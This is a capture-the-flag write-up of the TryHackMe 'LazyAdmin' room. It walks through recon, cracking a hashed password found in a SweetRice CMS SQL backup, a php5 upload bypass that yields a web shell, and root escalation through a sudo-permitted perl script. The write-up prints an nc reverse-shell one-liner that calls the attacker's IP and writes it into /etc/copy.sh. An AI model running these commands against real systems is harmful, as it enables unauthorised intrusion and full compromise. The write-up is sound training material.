 # TryHackMe - LazyAdmin - Linux

## Nmap

```bash
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.1.0    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-28 15:50 EDT
Nmap scan report for 10.10.1.0
Host is up (0.24s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/28%OT=22%CT=1%CU=37647%PV=Y%DS=4%DC=I%G=Y%TM=62BB608
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:04%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O
OS:3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1305.33 seconds                                                         
```

## Port 80

![image](https://user-images.githubusercontent.com/96747355/176272925-590af02b-7503-4fae-895c-0e68fee1a4d6.png)

### Directory busting

- With gobuster we find a directory `content`    
```
┌──(root💀kali)-[~]
└─# gobuster dir -u http://10.10.1.0/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt                      
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.1.0/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/28 15:57:42 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 308] [--> http://10.10.1.0/content/]
Progress: 43234 / 87665 (49.32%)                                              [ERROR] 2022/06/28 16:16:20 [!] Get "http://10.10.1.0/STRANGE": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
                                                                               
===============================================================
2022/06/28 16:38:57 Finished
===============================================================
```
![image](https://user-images.githubusercontent.com/96747355/176273862-d0452342-7829-42de-9daf-709a8360adf8.png)  
- It is worth launching gobuster inside content as well. We did find other things there too  
```
┌──(root💀kali)-[~]
└─# gobuster dir -u http://10.10.1.0/content/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.1.0/content/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/28 17:05:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.10.1.0/content/images/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.1.0/content/js/]    
/inc                  (Status: 301) [Size: 312] [--> http://10.10.1.0/content/inc/]   
/as                   (Status: 301) [Size: 311] [--> http://10.10.1.0/content/as/]    
/_themes              (Status: 301) [Size: 316] [--> http://10.10.1.0/content/_themes/]
/attachment           (Status: 301) [Size: 319] [--> http://10.10.1.0/content/attachment/]

```
- And we have a login portal http://10.10.1.0/content/as/  
![image](https://user-images.githubusercontent.com/96747355/176288549-21b1f58e-e436-44db-bea8-6ba7fd437029.png)  
- We could search for the admin user and try to use this exploit [here](https://vulners.com/securityvulns/SECURITYVULNS:DOC:25071)
- We find this interesting exploit by googlin about [sweetrice cms](https://www.exploit-db.com/exploits/40718)
- We indeed find a sql file here http://10.10.1.0/content/inc/mysql_backup/
- We can also find a list of files as directory listing is enabled http://10.10.1.0/content/inc/
- With google research we find in the exploits a reference to the plugin directory http://10.10.1.0/content/_plugin/

### The mysql file

- The mysql backup file contains an MD5 hashed password.
- With a look on [crackstation](https://crackstation.net/) we can get it in cleartext  
![image](https://user-images.githubusercontent.com/96747355/176510084-9f773c08-6f4b-42c1-b507-a74f09a879b4.png)  
We can try to login using the username and password found in this file. It works  
![image](https://user-images.githubusercontent.com/96747355/176510576-3ca38a7e-d018-4740-8ae8-27d042b2fcea.png)  
- If we go in the media page there is a file upload vulnerability. According to the code of this [exploit](https://www.exploit-db.com/exploits/40716) if we change our file extension to php5 it will get uploaded.  
- It works, our file is uploaded and then we get our shell  
![image](https://user-images.githubusercontent.com/96747355/176519186-1790925f-223d-4b9c-8465-ecd077564ac3.png)  
![image](https://user-images.githubusercontent.com/96747355/176519300-7f6ae53b-67c3-4fe5-8293-3a3e03618257.png)  
- If we ls to /home we have an `itguy` directory
- We can even freely go to this user directory we have enough permissions
- Let's grab the user flag  
![image](https://user-images.githubusercontent.com/96747355/176520471-3040b87e-e7cb-4d2c-9dcf-a3bbfaf7360a.png)  
- Let's stabilize our shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- In the home folder we have a file called `mysql_login.txt` with a password in it. We can connect to mysql with the password provided `mysql -u rice -p`

## Privilege Escalation

- Here is what we get if we do `sudo -l`
```
sudo -l
Matching Defaults entries or www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
- Here is the content of `backup.pl`

```bash
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
- Here is the content of /etc/copy.sh, it looks like a reverse shell
```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
- Let's replace it with the same thing but with my kali IP instead `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.22.56 5554 >/tmp/f" > /etc/copy.sh`
- Our change is successful  
```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.22.56 5554 >/tmp/f
```
- Let's set our listener to port 5554 `rlwrap nc -lvnp 5554`
- And now let's launch the perl script we are allowed to launch `sudo /usr/bin/perl /home/itguy/backup.pl`
- We get a root shell with having to do a lateral movement!  
![image](https://user-images.githubusercontent.com/96747355/176549169-a2ffd697-f4ca-46b8-a9ef-b2a9a9f54e40.png)  
- Let's grab our root flag  
![image](https://user-images.githubusercontent.com/96747355/176549386-a83b5546-b6bb-43a7-b1a8-81088b67b5ac.png)

